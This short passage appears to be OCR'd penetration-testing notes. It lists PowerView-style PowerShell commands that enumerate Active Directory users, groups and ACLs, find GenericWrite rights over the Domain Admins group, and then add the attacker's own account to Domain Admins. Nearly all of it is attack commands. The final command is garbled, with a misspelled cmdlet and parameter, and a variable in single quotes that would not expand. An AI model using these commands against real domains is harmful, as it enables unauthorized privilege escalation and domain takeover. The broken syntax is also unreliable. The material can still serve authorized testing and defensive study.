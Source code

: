 ```
Get-DomainUser -Name $USER
```

```
Get-ObjectAcl -SamAccountName 'Domain Admins' -ResolveGUIDS
```

```
Get-DomainGroup -Name 'Domain Admins'
```

```
Get-ObjectAcl -SamAccountName * -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SUID') }
```

```
Get-ObjectAcl -SamAccountName 'Domain Admins' -ResolveGUIDs | ? { ($_.ActiveDirectoryRights -match 'GenericWrite') -and ($_.SecurityIdentifier -match '$SUID') }
```
If any results show up, meaning we have GenericWrite permission, we can add our user to the Domain Admins group:

```
Add-DomainGroupMemeber -identify 'Domain Admins' -Members '$USER' -Domain '$NETBIOS_DOMAIN_NAME'
```


